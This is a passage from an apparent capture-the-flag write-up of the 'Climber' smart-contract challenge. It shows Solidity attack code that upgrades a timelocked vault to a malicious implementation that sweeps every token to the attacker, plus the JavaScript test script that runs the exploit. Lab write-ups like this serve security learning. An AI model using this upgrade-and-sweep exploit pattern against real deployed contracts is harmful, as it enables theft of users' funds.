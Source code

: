 ```solidity
        require(success, "execute failed");
    }

    function schedule() public {
        ClimberTimelock(climberTimelock).schedule(targets, values, data, bytes32(0));
    }

    function upgradeVault(address _newImp) public{
        ClimberVault(climberVault).upgradeTo(_newImp);
    }
    function sweepFunds(address _token) public {
        ClimberVaultAttackUpgrade(climberVault).sweepFunds(_token);
    }
}
```

In attack contract there are more functions that I have not explained. Since we became the owner of vault contract, we can upgrade vault contract to our new logic contract, so I built a new logic contract that allow us to sweep all the funds.

```solidity
contract ClimberVaultAttackUpgrade is Initializable, OwnableUpgradeable, UUPSUpgradeable{

    //constructor() initializer {}
    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;
    address public attacker;

    function initialize(address _attacker) initializer external {
        __Ownable_init();
        __UUPSUpgradeable_init();
    }

    function sweepFunds(address tokenAddress) public {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(tx.origin, token.balanceOf(address(this))), "Transfer failed");
    }

    function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}

}
```

Lastly, here is script I used to exploit the vault.

```js
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        this.attackContract = await (await ethers.getContractFactory('ClimberAttacker', attacker)).deploy(this.timelock.address, this.vault.address, this.token.address);
        this.attackUpgradableContract = await (await ethers.getContractFactory('ClimberVaultAttackUpgrade')).deploy();

        await this.attackContract.connect(attacker).attack();
        this.attackContract.connect(attacker).upgradeVault(this.attackUpgradableContract.address);
        this.attackContract.connect(attacker).sweepFunds(this.token.address)
    });
```

